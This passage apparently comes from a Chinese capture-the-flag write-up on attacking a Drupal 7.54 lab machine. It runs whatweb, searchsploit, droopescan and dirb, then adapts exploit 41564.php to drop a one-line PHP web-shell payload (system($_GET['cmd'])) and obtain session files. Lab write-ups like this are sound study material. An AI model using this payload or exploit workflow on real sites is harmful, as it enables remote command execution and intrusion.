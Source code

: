 whatweb 也可以看出...

可以看到版本是 Drupal 7.54....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTIDfUaCq1FyDfaBbL3xOGEfLM7HQpAruhxmXjrWEwibCYe7tsAdwaOMA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT8GL9v2TLf8xA11JhyfZkbPfUY1mAeDOlg2d8aLlJUXiblaZScvJIDBw/640?wx_fmt=png)

利用

```
searchsploit -x 41564.php
```

查看发现可利用....  

7.54 我这边对 drupal 7.x 模块服务进行利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTZDX3L9PsBs6Vj3ncAIRqSyla0N43786oxCFCf7tdibakrOAaVAHskcg/640?wx_fmt=png)

```
./droopescan scan drupal -u 10.10.10.9
```

（服务器对我不友好，或者是友国人在捣乱，我经常不稳定网络）  

这里我还利用了 droopescan 脚本对机器进行 drupal 扫描，看看有哪些可利用的地方...[链接](https://github.com/droope/droopescan)

继续回到利用 41564.php 脚本进行利用... 将脚本放到本地，修改下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTXVxIGVPaDxibkpahwDm7IfibSAFlrnwicDnaPMj2NmKtodcEMK2IuVJXQ/640?wx_fmt=png)

```
echo(system($_GET["cmd"]))` 或者 `system($_REQUEST["cmd"]
```

执行必须安装：

```
apt-get install php-curl
```

这里一开始利用 rest_endpoint 不成功，然后利用 rest 后成功了... 主要 dirb 发现了存在 rest 目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTh9r46IUicyiaFndWrEicwHoTdBz73GmSFGjvYdza9rKnfOAYbBkjNOzCQ/640?wx_fmt=png)

dirb 发现存在 rest 访问也发现成功的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTIbZut7F8IG1XeGOlLY4deFn4jP8UFsUNsS2kHwZ97vwFia8BJDkYKbQ/640?wx_fmt=png)

成功执行并获得了 session.json 和 user.json...

可以看到我前面执行 php 的时候，报错了几次，我调试了几次，有两处小地方需要调整下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTJzq2m53s6iauvam2M3oQ6N17ZLPJ5zoTpV306ztYib0zqVYm4QFUCaEQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTokNHJ6DmzEAEWnk7wyoKSU54xnOsR35O5yMkRCb1UULBI38pibUribIw/640?wx_fmt=png)

需要调整的两个地方... 不然报错...
